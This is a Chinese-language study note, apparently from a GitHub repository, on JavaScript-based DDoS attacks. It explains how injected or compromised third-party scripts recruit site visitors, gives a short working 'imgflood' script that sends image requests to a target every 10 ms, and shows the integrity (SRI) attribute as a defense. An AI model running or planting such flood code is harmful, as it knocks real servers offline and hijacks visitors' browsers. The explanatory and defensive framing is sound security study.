


# 关于JavaScript的DDoS攻击


> 引用：
>
> https://www.freebuf.com/news/66447.html


### 该攻击属于应用层攻击


- **Javascript实现DDos攻击原理分析**

> 　　现在网站的交互性都是通过JavaScript来实现的。通过添加JavaScript直接插入HTML元素，或通过远程来加载JavaScript。浏览器会读取script标签中的src属性并运行它所指向的脚本，其实不只是script标签可以用来攻击，简单来说只要是可以跨域访问的标签，如img，link等都可以实现DDos攻击。
>
> 　　既然这些标签可以访问外站的资源，那么我们是不是就可以设个定时器无限访问这个网站，从而达到攻击呢，那是肯定的。




如果攻击者在一个网站中嵌入了恶意JavaScript脚本，那么该网站的每一个访客都将成为DDoS攻击中的一员。网站流量越高就意味着DDoS越严重。


**入侵共享JavaScript的第三方服务器**

许多网站使用的都是普通的JavaScript库，为了节约带宽、提升性能，通常还会将JavaScript脚本共享在第三方服务器上。也就是说如果网站上包含有指向第三方服务器的脚本标签，就意味着所有访问该网站的用户都将自动下载JavaScript脚本，并执行。不幸的是，如果攻击者入侵了该第三方服务器并在JavaScript脚本中注入了DDoS攻击代码，那结果可想而知了，所有的访客也将变成DDoS攻击中的一员。


一段简单的JS代码就能发起DoS攻击

```javascript
<head>
<script type='text/javascript'>
function imgflood(){
	//var TARGET = 'victim-website.com'
	var TARGET = "127.0.0.1:12345"
	var URI = '/index?'
	var pic = new Image()
	var rand = Math.floor(Math.random()*1000)
	pic.src = 'http://'+TARGET+URI+'val='+rand
	//pic.src = 'http://'+TARGET+URI+'val='+rand
}
setInterval(imgflood, 10)
alert(pic.src)
</script>
</head>
<body>
f*********************king
<script type='text/javascript'>imgflood()</script>
</body>
```


` setInterval(code, millisec)`:以millisec 毫秒的间隔执行code

由于大部分网页引用jquery是从外部引用的，因此可以从此发起中间人攻击

```html
<script src="https://code.jquery.com/jquery-1.10.2.min.js">
```

预防的话，就是通过script标签支持的属性integrity：这个属性支持验证该js脚本的hash值，确保不会引用来自外部恶意的js脚本

```html
<script src="https://code.jquery.com/jquery-1.10.2.min.js"  
        integrity="sha256-C6CB9UYIS9UJeqinPHWTHVqh/E1uhG5Twh+Y5qFQmYg="
         crossorigin="anonymous">
```


中间人攻击示意图：攻击其中的请求外部js的途径




------

**在写js-DDoS的问题**：

#### [HTML引入外部js脚本，放在head中不起作用,放在body中才起作用](https://blog.csdn.net/SeekAndFindYou/article/details/82219815)

这是因为加载HTML文档时，先加载了js脚本后就不起作用了。
一般引入外部css文件放在head中，引入外部js脚本放在body中。
先渲染HTML文档(css)，再加载特效(js)


